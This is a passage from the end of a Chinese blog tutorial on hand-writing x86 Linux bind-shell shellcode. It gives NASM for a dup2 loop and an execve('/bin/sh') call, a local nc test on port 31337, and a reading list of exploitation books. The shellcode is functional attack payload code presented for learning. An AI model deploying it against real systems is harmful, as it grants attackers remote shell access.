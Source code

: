 然后复制文件描述符到标准输入输出错误：

{% highlight nasm %}
; dup2(connected socket, {all three standard I/O file descriptors})
  xchg eax, ebx 	; put socket fd in ebx
  push BYTE 0x2
  pop ecx
dup_loop: 		; 使用循环来将文件描述符复制
  mov BYTE al, 0x3F	; 标准输入 0
  int 0x80		; 标准输出 1
  dec ecx		; 标准错误 2
  jns dup_loop
{% endhighlight %}

最后一步是我们上一步在本地完成的shellcode，启动shell：

{% highlight nasm %}
; execve(const char *filename, char *const argv[], char *const envp[])
  mov BYTE al, 11
  push edx
  push 0x68732f2f
  push 0x6e69622f
  mov ebx, esp
  push edx
  mov edx, esp
  push ebx
  mov ecx, esp
  int 0x80
{% endhighlight %}

## 验证新的咒语

启动我们的实验程序：

    ~/Work/notes/shellcode ⮀ sh test.sh bind_shell.asm

不要中断它，在另一个终端中用nc连接本地31337端口

     ~/Site ⮀ ⭠ master ● ⮀ nc localhost 31337
    whoami
    reverland
    id
    uid=1000(reverland) gid=1000(reverland) groups=1000(reverland),10(wheel),27(video),35(games),70(postgres),103(vboxusers),997(wireshark)
    
虽然没有提示符，但你仍然可以和它交互。

## What' more

这些咒语其实很复杂，这篇文章只是匆匆一瞥，希望读者能喜欢。要想了解更多请参阅文末的那些魔法禁书：）

如果有任何指教、建议、意见、痛斥、嘲笑、怀疑、讥讽、不解、感谢都欢迎*留言*或者通过*[电子邮件](http://reverland.org)*告知我，我必将毫不留情的……嗯，洗耳恭听。

Happy hacking！

## 魔法禁书目录

- 善良人手册：《The Shellcoder's Handbook》
- 黑魔法：挖财宝的艺术：《Hacking：The Art of Exploitation》
- 揭秘：我没看过这本书：《Shellcoder’s programming uncovered》

法师们注意，前两个因特奈特上都有中文版的！

